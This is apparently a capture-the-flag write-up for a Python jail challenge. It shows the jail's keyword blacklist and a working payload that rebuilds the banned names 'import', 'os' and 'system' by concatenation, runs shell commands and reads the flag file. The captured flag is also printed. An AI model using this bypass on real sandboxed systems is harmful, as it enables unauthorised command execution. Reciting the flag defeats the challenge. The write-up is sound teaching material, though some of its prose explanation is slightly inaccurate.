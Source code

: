 # PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc `192.168.8.136 10014`

## Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

```python

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```


## Blacklist & Execution
Blacklisted substrings: ```"os", "import", "flag", "system"</span>```


The input is injected into a dynamically constructed string and executed via `netcat`


Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for `"__import__"` or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


## Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

## Working Payloads
### Step 1: List the directory to confirm the flag file

``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')``

Output:
``flag.txt
run``

### Step 2: Read the flag
``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')``

This bypasses the jail and prints the flag: `CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}`










